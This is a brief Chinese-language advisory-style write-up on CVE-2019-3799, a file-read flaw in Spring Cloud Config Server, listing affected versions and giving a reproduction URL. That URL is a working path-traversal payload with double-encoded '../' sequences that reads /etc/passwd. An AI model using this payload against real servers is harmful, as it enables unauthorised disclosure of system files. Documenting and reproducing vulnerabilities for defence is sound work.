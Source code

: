 # （CVE-2019-3799）Spring Cloud Config Server 任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3134](https://www.zhihuifly.com/t/topic/3134)

# （CVE-2019-3799）Spring Cloud Config Server 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

Spring Cloud Config 2.1.0 to 2.1.1

Spring Cloud Config 2.0.0 to 2.0.3

Spring Cloud Config 1.4.0 to 1.4.5

其他不受支持的老版本 （如Spring Cloud Config1.3及其以下版本）

## 三、复现过程

```
http://www.0-sec.org/test/pathtraversal/master/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f../etc/passwd 
```